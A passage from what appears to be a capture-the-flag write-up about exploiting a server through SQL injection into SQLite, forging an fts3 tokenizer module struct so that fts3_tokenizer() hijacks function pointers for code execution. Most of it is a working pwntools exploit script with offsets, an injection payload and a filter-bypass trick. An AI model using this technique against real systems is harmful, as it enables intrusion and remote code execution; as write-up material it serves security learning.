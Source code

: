 The next part is to craft `sqlite3_tokenizer_module`, to do this we can use built in [`simple` fts module](https://github.com/sqlite/sqlite/blob/master/ext/fts1/simple_tokenizer.c#L161-L168),

```c
static sqlite3_tokenizer_module simpleTokenizerModule = {
  0,
  simpleCreate,
  simpleDestroy,
  simpleOpen,
  simpleClose,
  simpleNext,
};
```

```py
server = ELF('./server', 0)
system = server.plt['system']
simple_create = 0x2abd0
simple_destroy = 0x23c40
simple_open = 0x2ab40
simple_close = 0x19080
simple_next = 0x2cb50

def admin(var, key=b'20c366aada34781158ae700cec09a4ce'):
    r = remote(HOST, PORT)
    r.send(b'GET /admin?key=%b&var=%b HTTP/1.1\r\n\r\n' % (key, var))
    r.close()

def fire(heap_base, sqlbase, offset=0):
    fts_module_struct_addr = heap_base + offset

    fts_module_struct  = p64(0) # version
    fts_module_struct += p64(sqlbase + simple_create) # xCreate
    fts_module_struct += p64(sqlbase + simple_destroy) # xDestroy
    fts_module_struct += p64(sqlbase + simple_open) # xOpen
    fts_module_struct += p64(sqlbase + simple_close) # xClose
    fts_module_struct += p64(sqlbase + simple_next) # xNext

    payload  = b"asd';"
    payload += b"select replace(hex(zeroblob(10000)), '00', x'4242424242424242%b4343434343434343');" % (hexlify(fts_module_struct))
    payload += b"select fts3_tokenizer('exploit', x'%b');" % hexlify(p64(fts_module_struct_addr))
    payload += b"create virtual table pwn using fts3(tokenize='exploit');"
    payload += b"-- "
    admin(payload.replace(b" ", b"/**/"))
```

override one of function pointers to get a code execution, a screenshot when I override `xCreate`

![https://a.pomf.cat/bgnhnh.png](https://a.pomf.cat/bgnhnh.png)

![https://a.pomf.cat/igihno.png](https://a.pomf.cat/igihno.png)
